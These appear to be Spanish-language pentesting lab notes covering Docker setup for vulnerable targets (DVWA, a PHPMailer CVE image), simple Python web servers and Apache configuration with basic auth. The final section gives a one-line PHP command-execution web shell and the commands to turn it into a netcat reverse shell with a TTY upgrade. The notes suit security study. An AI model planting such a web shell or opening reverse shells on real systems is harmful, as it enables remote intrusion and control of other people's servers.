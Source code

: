 	## Docker
	- Instalación: 
		1º sudo apt-get install docker
		2º sudo apt-get install docker-compose
		3º systemctl start docker
	- Lanzarlo:
		. dvwa: docker run --rm -it -p 80:80 vulnerables/web-dvwa
		. phpmailer: docker run --rm -it -p 8080:80 vulnerables/cve-2016-10033

	## CMS
	Sirve para la gestión sencilla y centralizada de paginas webs. Problema: Gran cantidad de vuln.

	## Servidor Web con python
	--> python -m SimpleHTTPServer PUERTO
	--> python3 -m http.server PUERTO

	## Apache2
	- Crear un servidor, su directorio: /var/www
	- Aqui se pueden crear diferentes hosts, etc. Configuracion:
		- cd /etc/apache2 --> sites-available
		- Modificar 000-default...--> DocumentRoot
		- Añadir "Server name"
		- a2ensite 000-pagina1.conf
		- cd /etc/hosts --> Añadir los hosts al archivo
	- Dispone de autenticación básica (No es segura):
		- Copiarlo en la configuracion de página (/etc/apache2/000-pagina.conf)
				. Crear "Location"
				<Location />
			        AuthType Basic
				AuthName "Contenido restringido"
				AuthUserFile /etc/apache2/.htpasswd
				Require valid-user
				</Location>

		- Crear usuarios:
				. htpasswd -c /etc/apache2/.htpasswd USER
				. Password: 1234
	- Se pueden utilizar distintos lenguajes:

		# PHP
		- Para ejecutar comandos desde navegador:

		<?php
		echo exec ($_GET['cmd'])
		?>

		- Crear shell:
		
			. url/archivo.php?cmd=nc+127.0.0.1+4444+-e+%2Fbin%2Fbash
			. nc -lvp 4444
			. python -c 'import pty'; pty.spawn("/bin/sh")'
			. export TERM=xterm
